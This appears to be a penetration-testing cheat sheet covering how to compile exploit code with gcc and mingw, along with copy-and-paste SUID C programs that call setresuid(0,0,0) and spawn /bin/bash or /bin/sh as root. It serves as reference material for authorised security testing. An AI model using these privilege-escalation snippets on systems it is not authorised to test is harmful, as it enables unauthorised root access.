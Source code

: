 ### Build Exploit GCC

Compile exploit gcc.

| COMMAND                    | DESCRIPTION       |
| -------------------------- | ----------------- |
| `gcc -o exploit exploit.c` | Basic GCC compile |

### GCC Compile 32Bit Exploit on 64Bit Kali

Handy for cross compiling 32 bit binaries on 64 bit attacking machines.

| COMMAND                         | DESCRIPTION                                 |
| ------------------------------- | ------------------------------------------- |
| `gcc -m32 exploit.c -o exploit` | Cross compile 32 bit binary on 64 bit Linux |

### Compile Windows .exe on Linux

Build / compile windows exploits on Linux, resulting in a .exe file.

| COMMAND                                                  | DESCRIPTION                   |
| -------------------------------------------------------- | ----------------------------- |
| `i586-mingw32msvc-gcc exploit.c -lws2_32 -o exploit.exe` | Compile windows .exe on Linux |

## SUID Binary

Often SUID C binary files are required to spawn a shell as a superuser, you can update the UID / GID and shell as required.

below are some quick copy and pate examples for various shells:

### SUID C Shell for /bin/bash

```
int main(void){
       setresuid(0, 0, 0);
       system("/bin/bash");
}       
```

### SUID C Shell for /bin/sh

```
int main(void){
       setresuid(0, 0, 0);
       system("/bin/sh");
}       
```

### Building the SUID Shell binary

```
gcc -o suid suid.c  
```
